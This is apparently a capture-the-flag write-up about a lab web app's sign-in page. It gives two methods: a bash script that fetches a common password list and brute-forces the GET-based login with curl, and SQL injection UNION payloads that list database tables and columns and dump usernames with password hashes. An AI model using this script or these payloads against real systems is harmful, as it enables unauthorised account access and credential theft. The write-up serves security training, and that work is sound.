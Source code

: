 # Brute force credentials

This vulnerability could be exploited without brute force attack (using SQL-injection).

## First option (Brute force)

Trying to sign in on the `http://$IPADDR/?page=signin` shows up the login and password pair in the link.
This means that the app uses `GET` method to send credentials, that must not happen.

To brute force, the script downloads the 1000 the most weak passwords and trying to sign in using them.

<details>
    <summary>Shell script that does the trick</summary>

```bash
#!/bin/bash

USER_FILE=users.txt
PSWD_FILE=passwords.txt
AMOUNT=1000

wget -q "https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/xato-net-10-million-passwords-$AMOUNT.txt" --output-document $PSWD_FILE

HEADER='=================================================================\n'

printf $HEADER;
printf "%-16s\t| %-16s\t| %-8s\t|\n" "user" "pass" "match";
printf $HEADER;

while IFS= read -r user
do
    while IFS= read -r pass
    do
        curl -s "http://$IPADDR/?page=signin&username=$user&password=$pass&Login=Login" | grep -o 'flag' &>/dev/null
        
        if [ $? -eq 0 ]; then
            printf "%-16s\t| %-16s\t| %-8c\t|\n" $user $pass 'o';
            if [ ! "$2" = "--all" ]; then
                printf $HEADER;
                exit 0;
            fi
        else
            printf "%-16s\t| %-16s\t| %-8c\t|\n" $user $pass 'x';
        fi
    done < $PSWD_FILE
done < $USER_FILE

printf $HEADER;
```

</details>


## Second option (SQL injection)

To exploit, go to the `http://addr/index.php?page=member` and write the following commands at the search field:

List all the tables and related databases:
```
1 union select table_name, table_schema from information_schema.tables
```

List all table columns and related table names:
```
1 union select column_name, table_name from information_schema.columns
```

List all users with encrypted passwords:
```
1 union select username, password from Member_Brute_Force.db_default
```

## References
- [Brute Force Attack — OWASP](https://owasp.org/www-community/attacks/Brute_force_attack)
- [Testing Weak Passoword Policy — OWASP](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/07-Testing_for_Weak_Password_Policy)
- [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)
- [Credential Stuffing Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Credential_Stuffing_Prevention_Cheat_Sheet.html)
- [Information_schema](https://dev.mysql.com/doc/refman/8.0/en/information-schema-general-table-reference.html) structure